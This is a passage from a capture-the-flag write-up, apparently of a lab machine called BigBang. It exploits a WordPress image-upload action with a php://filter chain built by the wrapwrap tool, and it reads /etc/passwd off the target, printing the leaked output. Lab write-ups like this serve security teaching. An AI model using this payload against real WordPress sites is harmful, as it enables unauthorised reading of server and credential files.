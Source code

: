 ![alt text](../assets/image_bigbang/burp1.png)

But if we follow the path in the response like the PoC did, it doesnt work.

So we can try LFI by using this [tool](https://github.com/ambionics/wrapwrap.git)

```Generates a php://filter chain that adds a prefix and a suffix to the contents of a file.``` 

```bash
python3 wrapwrap/wrapwrap.py /etc/passwd "GIF89a" "" 10
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1444).
```
```bash
curl 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' -H "Content-Type: application/x-www-form-urlencoded" -d 'action=upload_image_from_url&id=1&url=php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=file:///etc/passwd&accepted_files=image/gif'
{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/01\/1.png","attachment_id":155}
```
Now we can download the image and print it

```bash
wget http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/01\/1.png

# cat 1.png
GIF89aroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologi
```
But unfortunately we don't have the entire file, we only get partial files back because of the limited heap size of PHP